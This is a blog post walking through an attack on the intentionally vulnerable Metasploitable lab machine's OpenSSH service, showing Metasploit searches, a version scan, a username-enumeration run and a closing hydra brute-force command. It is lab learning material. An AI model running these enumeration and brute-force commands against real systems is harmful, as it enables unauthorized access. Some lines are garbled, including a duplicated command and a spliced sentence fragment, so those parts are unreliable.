 # More hacking!

This is a follow up of my last post on hacking that can be read [here](https://filimon-danopoulos.github.io/posts/2014-11-12_Metasploitable-1.html). 
This time I will try my hands on the next service running on port 22. During this exercise I searched the web a bit and found numerous guides
on how to hack the Metasploitable machine. Since I want the excitement of finding something my self I have not read any post on the subject and I will not do that either.
This means I might very well find sub-optimal solutions for some problems, deal with it!

## The target

I will again target the same Metasploitable VM under the exact same circumstances as last time.
Running on port 22 it has (from the previous `nmap` scan tar I saved to the file `target`):

22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

## Hack away!

Since I have already scanned all the ports and know the version of the software I am targeting I have to find 
some kind of weakness to exploit.

### Scanning

A quick search in the Metasploit console gives me:

    msf > search ssh

    Matching Modules
    ================

       Name                                                        Disclosure Date  Rank       Description
       ----                                                        ---------------  ----       -----------
     auxiliary/dos/windows/ssh/sysax_sshd_kexchange              2013-03-17       normal     Sysax Multi-Server 6.10 SSHD Key Exchange Denial of Service
     auxiliary/fuzzers/ssh/ssh_kexinit_corrupt                                    normal     SSH Key Exchange Init Corruption
     auxiliary/fuzzers/ssh/ssh_version_15                                         normal     SSH 1.5 Version Fuzzer
     auxiliary/fuzzers/ssh/ssh_version_2                                          normal     SSH 2.0 Version Fuzzer
     auxiliary/fuzzers/ssh/ssh_version_corrupt                                    normal     SSH Version Corruption
     auxiliary/pro/apps/ssh_key                                                   normal     PRO: SSH Key Recycler
     auxiliary/pro/scanner/ssh/ssh_login_credential                               normal     SSH Public Key Login Scanner
     auxiliary/scanner/ssh/cerberus_sftp_enumusers               2014-05-27       normal     Cerberus FTP Server SFTP Username Enumeration
     auxiliary/scanner/ssh/ssh_enumusers                                          normal     SSH Username Enumeration
     auxiliary/scanner/ssh/ssh_identify_pubkeys                                   normal     SSH Public Key Acceptance Scanner
     auxiliary/scanner/ssh/ssh_login                                              normal     SSH Login Check Scanner
     auxiliary/scanner/ssh/ssh_login_pubkey                                       normal     SSH Public Key Login Scanner
     auxiliary/scanner/ssh/ssh_version                                            normal     SSH Version Scanner
     exploit/apple_ios/ssh/cydia_default_ssh                     2007-07-02       excellent  Apple iOS Default SSH Password Vulnerability
     exploit/linux/ssh/f5_bigip_known_privkey                    2012-06-11       excellent  F5 BIG-IP SSH Private Key Exposure
     exploit/linux/ssh/loadbalancerorg_enterprise_known_privkey  2014-03-17       excellent  Loadbalancer.org Enterprise VA SSH Private Key Exposure
     exploit/linux/ssh/quantum_dxi_known_privkey                 2014-03-17       excellent  Quantum DXi V1000 SSH Private Key Exposure
     exploit/linux/ssh/quantum_vmpro_backdoor                    2014-03-17       excellent  Quantum vmPRO Backdoor Command
     exploit/linux/ssh/symantec_smg_ssh                          2012-08-27       excellent  Symantec Messaging Gateway 9.5 Default SSH Password Vulnerability
     exploit/multi/http/gitlab_shell_exec                        2013-11-04       excellent  Gitlab-shell Code Execution
     exploit/multi/ssh/sshexec                                   1999-01-01       manual     SSH User Code Execution
     exploit/unix/ssh/array_vxag_vapv_privkey_privesc            2014-02-03       excellent  Array Networks vAPV and vxAG Private Key Privilege Escalation Code Execution
     exploit/unix/ssh/tectia_passwd_changereq                    2012-12-01       excellent  Tectia SSH USERAUTH Change Request Password Reset Vulnerability
     exploit/windows/local/trusted_service_path                  2001-10-25       excellent  Windows Service Trusted Path Privilege Escalation
     exploit/windows/ssh/freeftpd_key_exchange                   2006-05-12       average    FreeFTPd 1.0.10 Key Exchange Algorithm String Buffer Overflow
     exploit/windows/ssh/freesshd_authbypass                     2010-08-11       excellent  Freesshd Authentication Bypass
     exploit/windows/ssh/freesshd_key_exchange                   2006-05-12       average    FreeSSHd 1.0.9 Key Exchange Algorithm String Buffer Overflow
     exploit/windows/ssh/putty_msg_debug                         2002-12-16       normal     PuTTY Buffer Overflow
     exploit/windows/ssh/securecrt_ssh1                          2002-07-23       average    SecureCRT SSH1 Buffer Overflow
     exploit/windows/ssh/sysax_ssh_username                      2012-02-27       normal     Sysax 5.53 SSH Username Buffer Overflow
     post/linux/gather/enum_network                                               normal     Linux Gather Network Information
     post/multi/gather/ssh_creds                                                  normal     Multi Gather OpenSSH PKI Credentials Collection
     post/windows/gather/credentials/mremote                                      normal     Windows Gather mRemote Saved Password Extraction

This is a lot to take in and at first glance nothing seems applicable as a quick exploit. So instead of wasting time going through everything
I decided to only run `auxiliary/scanner/ssh/ssh_version` in order to verify that the version I found earlier is valid.

    msf > use auxiliary/scanner/ssh/ssh_version  
    msf auxiliary(ssh_version) > show options

    Module options (auxiliary/scanner/ssh/ssh_version):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       RHOSTS                    yes       The target address range or CIDR identifier
       RPORT    22               yes       The target port
       THREADS  1                yes       The number of concurrent threads
       TIMEOUT  30               yes       Timeout for the SSH probe

    msf auxiliary(ssh_version) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(ssh_version) > run

    [*] 192.168.56.103:22, SSH server version: SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    
This verifies the version. Let's go to the next step!

### Searching

Nothing fruit full yet so I turn to the next tool, `searchsploit`.

    # searchsploit openssh
     Description                                                                         Path
    ---------------------------------------------------------------------------------- ----------------------------------
    OpenSSH/PAM <= 3.6.1p1 Remote Users Discovery Tool                                | /linux/remote/25.c
    OpenSSH/PAM <= 3.6.1p1 Remote Users Ident (gossh.sh)                              | /linux/remote/26.sh
    glibc-2.2 and openssh-2.3.0p1 exploits glibc => 2.1.9x                            | /linux/local/258.sh
    Dropbear / OpenSSH Server (MAX_UNAUTH_CLIENTS) Denial of Service                  | /multiple/dos/1572.pl
    OpenSSH <= 4.3 p1 (Duplicated Block) Remote Denial of Service Exploit             | /multiple/dos/2444.sh
    Portable OpenSSH <= 3.6.1p-PAM / 4.1-SUSE Timing Attack Exploit                   | /multiple/remote/3303.sh
    Debian OpenSSH Remote SELinux Privilege Elevation Exploit (auth)                  | /linux/remote/6094.txt
    Novell Netware 6.5 - OpenSSH Remote Stack Overflow                                | /novell/dos/14866.txt
    FreeBSD OpenSSH 3.5p1 - Remote Root Exploit                                       | /freebsd/remote/17462.txt
    OpenSSH 1.2 scp File Create/Overwrite Vulnerability                               | /linux/remote/20253.sh
    OpenSSH 2.x/3.0.1/3.0.2 Channel Code Off-By-One Vulnerability                     | /unix/remote/21314.txt
    OpenSSH 2.x/3.x Kerberos 4 TGT/AFS Token Buffer Overflow Vulnerability            | /linux/remote/21402.txt
    OpenSSH 3.x Challenge-Response Buffer Overflow Vulnerabilities (1)                | /unix/remote/21578.txt
    OpenSSH 3.x Challenge-Response Buffer Overflow Vulnerabilities (2)                | /unix/remote/21579.txt

Again nothing that seems directly applicable so I scrap the idea of finding an exploit manually. 
At this stage I would apply a vulnerability scanner but I couldn't get openvas to function correctly and couldn't be bothered
to figure out how to set it up correctly so I decided to try a common SSH vulnerability. Brute-forcing!

### Brute-forcing

I glance over the result from the metasploit search I did earlier to find something that would help with the brute forcing and see `auxiliary/scanner/ssh/ssh_enumusers`.
Having a set of valid users will really help speed up the brute forcing so I check if it is applicable (edited for brevity):

    msf > info auxiliary/scanner/ssh/ssh_enumusers 

    Name: SSH Username Enumeration
    Module: auxiliary/scanner/ssh/ssh_enumusers
    License: Metasploit Framework License (BSD)
    Rank: Normal

    Description:
      This module uses a time-based attack to enumerate users on an 
      OpenSSH server. On some versions of OpenSSH under some 
      configurations, OpenSSH will return a "permission denied" error for 
      an invalid user faster than for a valid user.

    References:
      http://cvedetails.com/cve/2006-5229/
      http://www.osvdb.org/32721
      http://www.securityfocus.com/bid/20418


This doesn't tell me the affected version I check the security focus [link](http://www.securityfocus.com/bid/20418) found under references. 
One of the affected versions is the one are running, sweet!

    msf > use auxiliary/scanner/ssh/ssh_enumusers 
    msf auxiliary(ssh_enumusers) > show options

    Module options (auxiliary/scanner/ssh/ssh_enumusers):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       Proxies                     no        Use a proxy chain
       RHOSTS                      yes       The target address range or CIDR identifier
       RPORT      22               yes       The target port
       THREADS    1                yes       The number of concurrent threads
       THRESHOLD  10               yes       Amount of seconds needed before a user is considered found
       USER_FILE                   yes       File containing usernames, one per line

    msf auxiliary(ssh_enumusers) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(ssh_enumusers) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/default_users_for_services_unhash.txt                set USER_FILE ./usr/share/metasploit-framework/data/wordlists/default_users_for_servi
    USER_FILE => /usr/share/metasploit-framework/data/wordlists/default_users_for_services_unhash.txt
    msf auxiliary(ssh_enumusers) > run

    [*] 192.168.56.103:22 - SSH - Checking for false positives
    [*] 192.168.56.103:22 - SSH - Starting scan

After running this for a while I decided to stop the scan, it's super slow and will probably not speed up the overall process much.


The number one tool for brute/root/Desktop/password.lst -vV 192.168.1.1 ftpforcing is probably `hydra ` so I will launch a bruteforce attack with it:

    # hydra -l -P /usr/share/john/password.lst -vV 192.168.56.103 ssh 
